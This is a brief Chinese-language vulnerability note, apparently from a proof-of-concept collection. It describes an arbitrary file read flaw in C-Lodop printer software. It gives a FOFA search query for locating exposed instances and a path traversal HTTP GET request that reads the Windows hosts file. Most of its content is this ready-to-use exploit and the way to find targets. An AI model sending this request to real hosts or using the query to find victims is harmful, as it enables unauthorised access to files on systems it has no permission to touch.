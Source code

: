 # C-Lodop打印机任意文件读取漏洞

C-Lodop打印机存在任意文件读取漏洞，通过构造特殊URL，可实现读取系统任意文件。

fofa：`title="C-Lodop"`

poc：

```
GET /../../../../../../../../windows/System32/drivers/etc/HOSTS HTTP/1.1
Host: 127.0.0.1
....
```